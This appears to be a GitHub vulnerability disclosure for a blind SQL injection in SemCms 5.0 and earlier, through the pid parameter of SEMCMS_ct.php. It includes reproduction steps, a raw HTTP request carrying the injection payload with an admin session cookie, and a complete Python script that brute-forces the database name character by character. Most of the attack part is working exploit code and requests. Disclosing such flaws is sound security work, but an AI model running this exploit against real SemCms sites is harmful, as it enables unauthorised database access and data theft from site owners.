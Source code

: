 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_ct.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the pid parameter in the SEMCMS_ct.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background. Click on "Product Classification" : semcms_Categores.php, and replace SEMCMS_Categories with SEMCMS_ct
![image](https://github.com/user-attachments/assets/2719faef-e6dd-4968-9efd-4d9c8992c7fc)

URL：http://localhost:83/admin/SEMCMS_ct.php?type=edit&pid=99&lgid=1&types=p

Still determine the length of the current database name first:

![image](https://github.com/user-attachments/assets/8d6cb62e-ce21-4522-bdb5-a283d0bb888e)
![image](https://github.com/user-attachments/assets/5e753577-902b-43ea-9ca8-5679f37ddf8f)

Finally, the length of the database name is 8. Next comes the enumeration of the specific values:

![image](https://github.com/user-attachments/assets/81c7e0d5-2dc9-45e9-8941-fc6a0b8c8fe2)

Finally, the database username is obtained as semcms50, and the yakit data packet:
```
GET /admin/SEMCMS_ct.php?type=edit&pid=if(substr(database(),{{int(1-8)}},1)%20like%20"{{payload(word)}}",99,2)&lgid=1&types=p HTTP/1.1
Host: localhost:83
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:83/admin/SEMCMS_Categories.php?pid=1&lgid=1
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: frame
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
```
# Code Analysis
Line 34 of `SEMCMS_ct.php`

![image](https://github.com/user-attachments/assets/ac92895e-a087-4c29-b772-d576d62aaf0d)

The pid parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability
# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要修改后台路径
# 需要更新Cookie



# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,98)'
        resp = send_request(base_url,header).text
        if 'Lorem' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",98,999)'
            resp = send_request(base_url, header).text
            if 'Lorem' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_ct.php?type=edit&lgid=1&types=p&pid="
    
    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```
